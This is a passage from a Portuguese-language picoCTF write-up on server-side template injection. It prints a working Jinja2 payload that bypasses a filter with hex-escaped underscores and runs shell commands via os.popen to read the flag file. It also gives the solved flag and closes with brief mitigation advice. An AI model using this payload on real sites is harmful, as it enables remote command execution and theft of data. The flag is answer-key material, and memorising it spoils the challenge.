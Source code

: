 Para solucionar o problema, usamos o mesmo payload modificando apenas o `|attr('popen')('ls')` para `|attr('popen')('cat flag')` que irá ler o arquivo `flag` no sistema do site e retornar o conteúdo:

`{{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")('os')|attr('popen')('cat flag')|attr('read')()}}`

<img width="585" height="98" alt="image" src="https://github.com/user-attachments/assets/c0212385-e56c-46cf-92a8-da1300cd9b8d" />

Feito isso, conseguimos obter a flag:

>`picoCTF{sst1_f1lt3r_byp4ss_63b833cd}`

**Aplicação no dia a dia**

Para evitar esse tipo de ataque a essa vulnerabilidade é importante usar sandboxing e remover do contexto do template objetos como `request`.

Isso porque caso o invasor consiga realizar SSTI, ele pode obter dados sensíveis, comprometendo a integridade e a confiabilidade do sistema, afetando a segurança geral da rede e a privacidade dos usuários.
